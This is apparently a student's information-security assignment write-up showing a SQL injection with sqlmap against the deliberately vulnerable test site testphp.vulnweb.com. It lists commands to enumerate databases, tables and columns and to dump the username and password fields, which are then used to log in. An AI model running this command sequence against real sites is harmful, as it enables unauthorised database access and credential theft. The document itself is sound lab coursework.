 # COMP421-InfoSec Assignment 1
# Hamza Asaad 231450993

## Pre-Requisite Steps Taken 📟
- Installation of ```sqlmap``` on Mac Terminal using the command ```brew install sqlmap```.
- Changed MacOS terminal from ```zsh``` to ```bash``` due to issues with ```sqlmap``` on zsh.

Note: Screenshots attached bottom.

## Steps Performed for SQL Injection Attack 🪜
1. Open website ```vulnweb.com``` and proceed to Acuart sub domain ```http://vulnweb.com```.
2. To proceed we must find a link which makes a query paramter request to the SQL database on the backend as such we can browse to the 'artist' tab and click on one of the three links leading us to the page with the link ```http://testphp.vulnweb.com/artists.php?artist=1``` which does indeed contain a query param.
3. We can confirm our request to a SQL DB by appending a quotation at the end and seeing the result ```http://testphp.vulnweb.com/artists.php?artist=1'``` .
4. Now that we have our link and confirmed it uses a SQL based DB we can perform the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs``` to find its databases.
5. Now we can further find tables within these found databases using the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables```.
6. We will find 8 tables and focus our attention to the ```users``` table and further use the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users columns``` and see the columns within the ```user``` table.
7. Now we will observe 8 columns and target the ```uname``` and ```pass``` column and dump their respective data with the following commands:
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump``` 
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump```
8. We will find both commands result with us finding ```test``` as both the username and password for the admin panel of the website.

With this we have successfully carried out our SQL Injection Attack resulting in us finding the ```username``` and  ```password``` for the admin panel of the website. Observing the sidebar on the website we can click the ```Sign Up``` button use the username and password we have discovered to Log In.

## List Of Commands Executed 📝
1. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs```
2. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables```
3. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns``` 
4. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump```
5.  ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump```

# Screenshots 📸

## Command #1
<img width="815" alt="Screen Shot 2022-10-28 at 8 03 52 PM" src="https://user-images.githubusercontent.com/66818162/198666738-7d5b9820-f761-44c3-86be-7ad9b527bb95.png">
